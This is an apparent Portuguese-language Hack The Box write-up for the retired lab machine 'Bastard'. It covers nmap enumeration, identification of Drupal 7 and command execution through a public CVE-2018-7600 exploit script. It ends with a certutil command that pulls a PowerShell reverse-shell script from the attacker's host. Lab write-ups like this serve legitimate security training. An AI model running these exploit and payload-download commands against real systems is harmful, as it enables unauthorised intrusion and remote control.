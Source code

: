 ```yaml
---
title:     "Hack The Box - Bastard"
tags: [windows,medium]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/1.jpg)

## Enumeration

Inicialmente, utilizamos o nmap para obter informacoes por exemplo: version, ports, status, vulns...

```
root@kali:~/HTB-Windows/bastard# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:06 EDT
Nmap scan report for 10.10.10.9
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 430.79 seconds
```

Um novo scan apenas com as portas encontradas e assim obter versionamento.

```
oot@kali:~/HTB-Windows/bastard# nmap -sV -p80,135 -oN nmap/version 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 23:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.19s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 7.5
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.51 seconds
```

Navegando ate o servido HTTP na porta 80, indentificco um DRUPAL

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/2.jpg)

Huuuuuum... Veriricando o source do site eu vejo que trata-se de um **DRUPAL 7** e de acordo com minha experiencia existe exploits pra versao.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/3.jpg)

## Find exploits

Uma busca rapida encontramos varias formas de explorar

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/4.jpg)


## Exploitation

Encontrei um exploit interessante e precisamos testar **CVE-2018-7600**

***reference*** https://github.com/pimps/CVE-2018-7600.git

Realmente eh vulneravel

`python drupa7-CVE-2018-7600.py -c whoami http://10.10.10.9/`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/5.jpg)

## Reverse Shell

Estou um tempinho tentando transferir arquivos para maquina e assim obter uma reverse shell

Acabei de fazer um teste e ver se o alvo se comunicava de volta comigo e sim, esta tudo ok.. preciso continuar tentando encontrar uma maneira de transferir arquivos..

AHhh, lembrando que eu ja dei uma verificada rapidas nos arquivos encontrados no diretorio do drupal.

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/6.jpg)

Consegui usando o certutil

`certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1`

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/7.jpg)



